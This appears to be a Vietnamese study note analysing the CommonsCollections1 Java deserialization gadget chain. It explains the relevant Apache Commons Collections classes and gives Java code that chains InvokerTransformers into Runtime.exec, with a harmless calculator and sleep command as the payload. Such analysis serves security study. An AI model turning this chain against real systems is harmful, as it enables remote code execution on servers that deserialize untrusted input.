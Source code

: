 ## CommonsCollections1  

###  Transformer(org.apache.commons.collections.Transformer)

> Class transformer sẽ nhận vào 1 object và return ra 1 object mới, class này thường được dùng
> để cast kiểu 1 object này s ang 1 kiểu object khác (Type convert) hoặc dùng để extract data từ
> object input ra  

### LazyMap(org.apache.commons.collections.map.LazyMap)  

> Class LazyMap sẽ tạo ra Object value cho 1 cái key chưa có sẵn trong Map, tóm lại là LazyMap
> sẽ tạo ra Object(value+key) khi gọi đến 1 key chưa tồn tại trong Map ban đầu  

### Chained Trasformer(org.apache.commons.collections.functors.ChainedTransformer)  

> Chained Transformer sẽ nhận tất cả các Transformer riêng lẻ khác tạo thành 1 array, và nó sẽ
> pass output của Transformer n cho Transformer n+1 trong array  

### Invoker Transformer(org.apache.commons.collections.functors.InvokerTransformer)  

> InvokerTransformer nhận 3 giá trị là tên method, type của param method nhận vào và giá trị
> param của method. Một khi tìm thấy method thì InvokerTransformer sẽ invoke method đó và trả
> về giá trị output của method  

### Analysis

```java
public class CommonsCollections1PayloadOnly {
    public static void main(String... args) {
        String[] command = {"open -a calculator"};
        final Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class), //(1)
                new InvokerTransformer("getMethod",
                        new Class[]{ String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ), //(2)
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}
                ), //(3)
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        command
                ) //(4)
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map map = new HashMap<>();
        Map lazyMap = LazyMap.decorate(map, chainedTransformer);
        lazyMap.get("gursev");
    }
}
```

- Về cơ bản phần ``Transformer`` sẽ được hiểu như sau:

```java
Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", "sleep 5"});
```

....